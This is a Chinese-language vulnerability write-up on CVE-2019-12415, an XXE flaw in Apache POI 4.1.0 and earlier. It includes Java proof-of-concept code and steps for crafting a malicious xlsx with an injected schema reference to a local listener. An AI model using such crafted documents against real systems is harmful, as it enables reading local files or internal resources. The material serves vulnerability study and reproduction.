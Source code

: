 （CVE-2019-12415）Apache POI \<= 4.1.0 XXE漏洞
==============================================

一、漏洞简介
------------

### 什么是POI

Apache
POI是Apache软件基金会的开放源码函式库，POI提供API给Java程序对Microsoft
Office格式档案读和写的功能。

### 关于CVE-2019-12415

这是最近的POI官方宣布出来的一个XXE漏洞，可以影响到4.1.0版本，官方已在十天前更新了4.1.1版本，最新版本修复了这个XXE漏洞。

在最高4.1.0的Apache
POI中，当使用工具XSSFExportToXml转换用户提供的Microsoft
Excel文档时，特制文档可允许攻击者通过XML外部实体（XXE）从本地文件系统或内部网络资源中读取文件。加工中。

根据官方介绍，防御是在使用 XSSFExportToXml类xlsx转xml时触发的。

diff了一下4.1.0和4.1.1
XSSFExportToXml类的原始代码，发现在isValid方法里多设置了一个功能。

问题就出在 XSSFExportToXml\#isValid 方法里，如果
XSSFExportToXml\#exportToXML方法的第三个参数为true逐步进入
isValid触发XXE。

![](./resource/(CVE-2019-12415)ApachePOI<=4.1.0XXE漏洞/media/rId24.png)

二、漏洞影响
------------

Apache POI\<=4.1.0

三、复现过程
------------

    XSSFWorkbook wb = new XSSFWorkbook(new FileInputStream(new File("CustomXMLMappings.xlsx")));
    for (XSSFMap map : wb.getCustomXMLMappings()) {     XSSFExportToXml exporter = new XSSFExportToXml(map); // 使用 XSSFExportToXml 将 xlsx 转成 xml     exporter.exportToXML(System.out, true);//第一个参数是输出流无所谓，第二个参数要为 true}

然后下载这个xlsx文件。

    https://github.com/apache/poi/raw/f509d1deae86866ed531f10f2eba7db17e098473/test-data/spreadsheet/CustomXMLMappings.xlsx

把文件替换为" CustomXMLMappings.zip"并解压文件。

编辑 CustomXMLMappings/xl/xmlMaps.xml 文件。

在 [xsd:schema](xsd:schema) 标签里面加上一行代码。

    <xsd:redefine schemaLocation="http://127.0.0.1:8080/"/>

![](./resource/(CVE-2019-12415)ApachePOI<=4.1.0XXE漏洞/media/rId28.png)

然后把xlsx释放出来的所有文件再用zip打包回去，改成
CustomXMLMappings.xlsx。

最后一步监听本地8080端口，运行POC。![](./resource/(CVE-2019-12415)ApachePOI<=4.1.0XXE漏洞/media/rId29.png)
